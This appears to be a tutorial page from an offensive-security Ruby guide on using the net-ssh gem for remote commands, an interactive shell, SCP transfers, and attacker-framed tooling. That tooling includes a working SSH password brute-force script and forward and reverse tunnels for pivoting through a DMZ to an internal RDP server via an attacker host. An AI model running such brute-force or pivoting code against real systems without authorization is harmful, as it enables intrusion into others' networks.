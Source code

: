 # SSH
Here we'll show some SSH using ruby. However, we'll need to install net-ssh gem for that.

- To install net-ssh
```
gem install net-ssh
```

## Simple SSH command execution 
This is a very basic ssh client which sends and executes commands on a remote system 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

## SSH Client with PTY shell
Here a simple ssh client which give you an interactive PTY

```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

Net::SSH.start(@hostname, @username, :password => @password, :auth_methods => ["password"]) do |session|

  # Open SSH channel 
  session.open_channel do |channel|
    
    # Requests that a pseudo-tty (or "pty") for interactive application-like (e.g vim, sudo, etc)
    channel.request_pty do |ch, success| 
      raise "Error requesting pty" unless success 

      # Request channel type shell
      ch.send_channel_request("shell") do |ch, success| 
        raise "Error opening shell" unless success
    	STDOUT.puts "[+] Getting Remote Shell\n\n" if success
      end
    end

    # Print STDERR of the remote host to my STDOUT
    channel.on_extended_data do |ch, type, data|
      STDOUT.puts "Error: #{data}\n"
    end

    # When data packets are received by the channel
    channel.on_data do |ch, data|
      STDOUT.print data
      cmd = gets
      channel.send_data( "#{cmd}" ) 
      trap("INT") {STDOUT.puts "Use 'exit' or 'logout' command to exit the session"}
    end
    
    channel.on_eof do |ch|
      puts "Exiting SSH Session.."
    end
    
    session.loop
  end
end
```

## SSH Bruteforce 

**ssh-bf.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'net/ssh'

def attack_ssh(host, user, password, port=22, timeout = 5)
  begin
    Net::SSH.start(host, user, :password => password, 
        		   :auth_methods => ["password"], :port => port, 
        		   :paranoid => false, :non_interactive => true, :timeout => timeout ) do |session|
      puts "Password Found: " + "#{host} | #{user}:#{password}" 
    end


  rescue Net::SSH::ConnectionTimeout
    puts "[!] The host '#{host}' not alive!"
  rescue Net::SSH::Timeout
    puts "[!] The host '#{host}' disconnected/timeouted unexpectedly!"
  rescue Errno::ECONNREFUSED
    puts "[!] Incorrect port #{port} for #{host}"
  rescue Net::SSH::AuthenticationFailed
    puts "Wrong Password: #{host} | #{user}:#{password}" 
  rescue Net::SSH::Authentication::DisallowedMethod
    puts "[!] The host '#{host}' dosn't accept password authentication method."
  end
end


hosts = ['192.168.0.1', '192.168.0.4', '192.168.0.50']
users = ['root', 'admin', 'rubyfu']
passs = ['admin1234', 'P@ssw0rd', '123456', 'AdminAdmin']

hosts.each do |host|
  users.each do |user|     
    passs.each do |password|
      
      attack_ssh host, user, password
  
end end end



```

## SSH Tunneling

### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Run ssh-ltnnel.rb on the **SSH Server** 

**ssh-ftunnel.rb**
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


### Reverse SSH Tunnel 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |->-|                       |                 |                 |
                              |-----------------|-----------------|
```
Run ssh-rtnnel.rb on the **SSH Server** 

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```

Now SS from the **SSH Server** to **localhost** on the localhost's ssh port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```



## Copy files via SSH (SCP)

- To install scp gem
```
gem install net-scp
```

- Upload file 

```ruby
require 'net/scp'

Net::SCP.upload!(
    		        "SSHServer", 
                    "root",
                    "/rubyfu/file.txt", "/root/", 
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                )
```

- Download file 

```ruby
require 'net/scp'

Net::SCP.download!(
    		        "SSHServer", 
                    "root",
                    "/root/", "/rubyfu/file.txt",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                  )
```




<br><br><br>
---
- [More SSH examples](http://ruby.about.com/sitesearch.htm?q=ruby+ssh&boost=3&SUName=ruby)
- [Capistranorb.com](http://capistranorb.com/)
- [Net:SSH old docs with example](http://net-ssh.github.io/ssh/v1/chapter-6.html)



